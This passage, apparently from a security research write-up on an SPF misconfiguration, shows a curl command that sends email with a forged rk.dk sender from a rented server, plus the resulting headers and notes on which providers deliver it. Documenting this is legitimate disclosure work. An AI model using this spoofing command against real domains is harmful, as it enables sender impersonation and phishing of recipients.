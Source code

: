 The rented server had limited binaries available, but we found `curl` which was used to send the mail:

```
curl -vvvv smtp://improsec-com.mail.protection.outlook.com --mail-from jefflechef@rk.dk --mail-rcpt jbe@improsec.com --upload-file mail.txt
```

![rk.dk sending mail](rkdk_2.png)

Result in mailbox:

![rk.dk outlook mailbox](rkdk_1.png)

Mail headers

```
[...]
Authentication-Results: spf=pass (sender IP is 185.20.205.41)
 smtp.mailfrom=rk.dk; dkim=none (message not signed)
 header.d=none;dmarc=bestguesspass action=none header.from=rk.dk;compauth=pass
 reason=109
Received-SPF: Pass (protection.outlook.com: domain of rk.dk designates
 185.20.205.41 as permitted sender) receiver=protection.outlook.com;
 client-ip=185.20.205.41; helo=mail.txt;
[...]
```

Note that SPF passes, but Outlook protection mechanisms put the mail in the Junk folder. While we are not sure why (absence of DKIM, other spam considerations etc), this makes a potential phishing way less efficient. Please reach out to us if you know the exact reason.

However, if the receiver is a protonmail address, the mail is delivered to the inbox:
